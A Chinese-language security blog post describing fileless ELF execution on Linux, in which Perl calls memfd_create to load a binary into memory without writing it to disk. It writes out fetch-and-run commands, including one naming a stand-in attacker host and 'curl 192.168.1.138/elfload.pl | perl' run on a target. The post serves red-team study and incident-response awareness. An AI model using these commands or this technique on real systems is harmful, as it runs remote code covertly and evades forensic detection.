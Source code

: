 ```yaml
---
layout: post
title: Linux无文件渗透执行ELF
date: 2018-05-15 13:43:02
categories: [Pentest, Red Team, fileless]
---
```


> 本文首发[逢魔安全实验室微信公众号](https://mp.weixin.qq.com/s/SdR6ce9xjbS5UQbh14kfgg)

### 0x01 简介

在进行Linux系统的攻击应急时，大家可能会查看pid以及/proc相关信息，比如通过*/proc/$pid/cmdline*查看某个可疑进程的启动命令，通过*/proc/$pid/exe*抓样本等，但是攻击者是否会通过某种类似于*curl http://attacker.com/1.sh \| sh*的方法来执行elf二进制文件呢？最近看了一篇@MagisterQuis写的文章https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html，思路比较奇特，这里分享给大家，当然本文大部分内容都来自于这篇文章，大家也可以直接去读原文。

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/pvl7sjjxrg.jpg)

### 0x02 技术核心

这里向大家介绍一个linux系统的底层调用函数*memfd_create(2)，*它在内核3.17中引入，会创建一个匿名文件并返回一个文件描述符指向它，该文件表现和常规文件类同， 可以进行修改，截断，内存映射等等，但不同的是，它存在于RAM当中。这就是可以被攻击者所利用的，如果有办法将需要执行elf通过*memfd_create(2)*写入内存中进行执行的话就可以达到我们的目的。

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/l3ju6ct2aj.png)

对于该匿名文件的命名man信息中的解释如下：

> The name supplied in name is used as a filename and will be displayed as the target of the corresponding symbolic link in the directory /proc/self/fd/.  The displayed name is always prefixed with memfd: and serves only for debugging purposes.  Names do not affect the behavior of the file descriptor, and as such multiple files can have the same name without any side effects.

类似于下面这样，当我们在虚拟文件系统中查看该进程信息时，在memfd:后面会出现对于该文件名称，甚至对于匿名文件的命名可以是空的。

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/qe5yu1ocku.jpg)

这里我们已经知道调用*memfd_create(2)*可以达到我们的目的，但是该怎么调用呢？perl语言中提供了一个*syscall()*方法可以满足我们的需求，当然python也可以，但是python实现该功能需要依赖第三方库。

*memfd_create()*调用时需要传入两个参数，一个是文件名，一个是*MFD_CLOEXEC*标志（类似于*O_CLOEXEC*），以便当我们执行ELF二进制文件时，我们得到的文件描述符将被自动关闭。当然我们使用perl传递*memfd_create(2)*的原始系统调用号和*MEMFD_CLOEXEC*的数字常量， 这两个都可以在/usr/include的头文件中找到。 系统调用号码存储在以_NR开头的#define中。

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/8zspn1e9aq.jpg)

这里我们已经获取到了*memfd_create(2)*的系统调用码（在64位操作系统中为319）和*MFD_CLOEXEC*（0x0001U），这时候我们就可以使用perl的syscall函数来调用*memfd_create(2)* : *fd = syscall(319, $name, MFD_CLOEXEC))*也就是类似于*fd = memfd_create($name, MFD_CLOEXEC)*

### 0x03 EXP实现

这里开始编写perl利用脚本，脚本分为三部分，第一部分创建内存匿名文件并写入ELF文件内容

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/p3ut8qagu6.jpg)

这里还有一个问题，如何将elf二进制文件写入到创建的文件当中，@MagisterQuis这里使用open函数将$FH内容添加进创建的匿名文件$fd当中，而$FH通过perl转化自要执行的elf文件，这就是该脚本的第二部分

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/41r78auzam.jpg)

第三部分就是执行该文件了，调用exec函数执行该匿名文件

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/2a03cym868.jpg)

这里我们最后的EXP就生产好了，我们可以目标机上执行 

*curl 192.168.1.138/elfload.pl | perl*

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/6w4ulsnckk.jpg)

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/kn3fq1eeov.jpg)

可以看到我们的elf文件最终以匿名文件的方式在内存中被加载执行了，从匿名文件运行的程序与运行于普通文件的程序之间唯一真正的区别是/proc/pid/exe符号链接。

原作者还使用了fork函数进行了一些进程操作，有兴趣的同学可以去了解一下。

### 0x04 参考

https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html

http://man7.org/linux/man-pages/man2/memfd_create.2.html